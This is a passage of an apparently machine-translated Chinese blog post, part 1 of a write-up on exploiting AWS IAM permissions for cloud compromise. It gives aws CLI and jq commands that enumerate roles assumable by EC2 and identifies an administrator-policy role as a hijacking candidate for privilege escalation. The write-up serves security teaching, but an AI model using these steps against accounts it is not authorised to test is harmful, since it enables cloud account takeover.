

不是我们期望的产量。这是因为并不是所有的结果看起来都像我们之前的例子。您可能还有其他东西(例如，联邦主体):



这将使解析输出更加困难，但现在是不可能的。让我们只过滤那些有主体的元素。服务！= null。

```
aws --profile test2 iam list-roles | jq -r '.Roles[] |  select( .AssumeRolePolicyDocument.Statement[].Principal.Service != null) | .RoleName, .AssumeRolePolicyDocument.Statement[].Principal.Service'
```



我们越来越接近了。让我们稍微润色一下结果:

```
aws --profile test2 iam list-roles | jq -r '.Roles[] |  select( .AssumeRolePolicyDocument.Statement[].Principal.Service != null) | .RoleName, .AssumeRolePolicyDocument.Statement[].Principal.Service' | grep -B 1 "ec2.amazonaws.com" | grep -v "ec2.amazonaws.com" |sort -u | uniq
```

这将得到所有的结果与本金。服务还显示每个角色名称。然后，它将删除我们匹配后不再需要的主要服务。然后，它将对集合进行排序并删除重复项。



识别可能的候选角色劫持。

我们有大约 20 个结果，可以很容易地手动分析。我们现在需要用我前面说过的列表附加角色策略和列表角色策略为每一个获取相关联的策略。几分钟后，我们发现一个附加了管理员策略的角色。从现在开始就叫它危险角色吧。足够说明问题了。还有，听起来像危险地带，我喜欢阿彻。


危险-角色已确定！


强制 Archer meme

我原本打算写一篇关于这个的文章，但是我们已经有 2000 字了，我不想让你睡着，所以我将在这里结束第一部分。在[第 2 部分](https://medium.com/bugbountywriteup/exploiting-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-2-2-f27e4b57454e)中，我们将了解如何使用该角色提升权限。